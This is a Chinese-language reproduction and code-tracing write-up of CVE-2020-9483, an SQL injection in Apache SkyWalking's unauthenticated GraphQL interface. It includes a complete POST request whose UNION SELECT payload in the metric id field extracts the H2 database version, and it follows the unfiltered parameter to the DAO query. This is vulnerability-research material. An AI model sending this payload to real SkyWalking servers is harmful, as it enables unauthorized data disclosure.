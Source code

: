 # Apache SkyWalking graphql SQL注入漏洞 CVE-2020-9483

## 漏洞描述

腾讯安全威胁情报中心监测到Apache SkyWalking发布更新，修复了一个SQL注入漏洞（编号：CVE-2020-9483）。远程攻击者可通过Apache SkyWalking默认开放的未授权GraphQL接口构造恶意请求包进行注入攻击，成功利用此漏洞可造成敏感数据泄漏。该漏洞等级为高危，腾讯安全专家建议相关企业尽快修复。

## 漏洞影响

<a-checkbox checked>Apache SkyWalking 6.0.0~6.6.0</a-checkbox></br>

<a-checkbox checked>Apache SkyWalking 7.0.0</a-checkbox></br>

## 环境搭建

<a-checkbox checked>https://archive.apache.org/dist/skywalking/6.5.0/apache-skywalking-apm-6.5.0.tar.gz</a-checkbox></br>

<a-checkbox checked>https://archive.apache.org/dist/skywalking/8.3.0/apache-skywalking-apm-6.5.0-src.tgz</a-checkbox></br>

## 漏洞复现

下载编译好的源码后，进入bin目录，修改 oapService.sh  通过IDEA进行远程调试

```sh
for i in "$OAP_HOME"/oap-libs/*.jar
do
    CLASSPATH="$i:$CLASSPATH"
done

OAP_OPTIONS=" -Doap.logDir=${OAP_LOG_DIR}"

eval exec "\"$_RUNJAVA\" ${JAVA_OPTS} ${OAP_OPTIONS} -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005 -classpath $CLASSPATH org.apache.skywalking.oap.server.starter.OAPServerStartUp \
        2>${OAP_LOG_DIR}/oap.log 1> /dev/null &"

if [ $? -eq 0 ]; then
    sleep 1
	echo "SkyWalking OAP started successfully!"
else
	echo "SkyWalking OAP started failure!"
	exit 1

```

配置IDEA  JVM Debug![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650592340016-fcbc91f2-5443-4dd3-b726-5fabfe109617.png)

查看CVE的修复commit寻找修复的地方

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650592523770-e6ea155d-4e62-426a-82d1-c9acd7359846.png)

打下断点并发送Payload请求包

```php
POST /graphql HTTP/1.1
Host:
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cache-Control: max-age=0
Content-Type: application/json
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Length: 416

{
    "query": "query queryData($duration: Duration!) {globalP99: getLinearIntValues(metric: {name: \"all_p99\", id: \"') UNION ALL SELECT NULL,CONCAT('~', H2VERSION(), '~')--\" }, duration: $duration) {  values { value } }}",
    "variables": {
        "duration": {
            "end": "2020-08-07 1418",
            "start": "2020-08-07 1417",
            "step": "MINUTE"
        }
    }
}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650592654329-a18480bd-82f4-41df-bdb5-d99056a6637a.png)

在 org.apache.skywalking.oap.query.graphql.resolver 中我们可以看到参数 metrics.getId() 没有过滤就直接传入 getLinearIntValues

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650592691209-1c8ccadd-47d7-4c67-9cbe-4a6f74738957.png)

跟随来到 org.apache.skywalking.oap.server.core.query.MetricQueryService.getLinearIntValues(MetricQueryService.java:96) 

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650592955431-233dff33-a8c7-4d6f-a149-472005e5aee5.png)

来到 org.apache.skywalking.oap.server.storage.plugin.jdbc.h2.dao.H2MetricsQueryDAO.getLinearIntValues(H2MetricsQueryDAO.java:117)，这里就将拼接的语句带入数据库进行查询，造成SQL注入

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650593267061-cc90dfbe-c500-42a8-813c-f76d13383367.png)

调用栈如下

```java
getLinearIntValues:117, H2MetricsQueryDAO (org.apache.skywalking.oap.server.storage.plugin.jdbc.h2.dao)
getLinearIntValues:96, MetricQueryService (org.apache.skywalking.oap.server.core.query)
getLinearIntValues:60, MetricQuery (org.apache.skywalking.oap.query.graphql.resolver)
execute:87, GraphQLQueryHandler (org.apache.skywalking.oap.query.graphql)
doPost:81, GraphQLQueryHandler (org.apache.skywalking.oap.query.graphql)
doPost:54, JettyJsonHandler (org.apache.skywalking.oap.server.library.server.jetty)
service:101, JettyJsonHandler (org.apache.skywalking.oap.server.library.server.jetty)
service:105, JettyJsonHandler (org.apache.skywalking.oap.server.library.server.jetty)
```